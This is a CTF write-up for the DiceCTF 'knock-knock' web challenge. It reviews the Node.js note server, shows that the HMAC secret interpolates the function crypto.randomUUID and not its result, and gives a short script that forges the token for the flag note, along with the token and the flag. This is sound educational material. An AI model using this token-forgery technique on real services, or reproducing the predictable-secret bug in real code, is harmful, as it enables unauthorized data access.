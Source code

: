 ```yaml
---
title: "DiceCTF - knock-knock [Web]"
author: "dhmosfunk"
description: "Writeup for DiceCTF knock-knock challenge"
date: 2022-02-06 
---
```


## Code Review | index.js

```javascript
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```javascript
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```javascript
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```javascript
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is *${crypto.randomUUID}*. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```javascript
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

Finally use the token *7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264* to grab the flag ***`dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`***.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)

###### Contributors: `jimman2003`
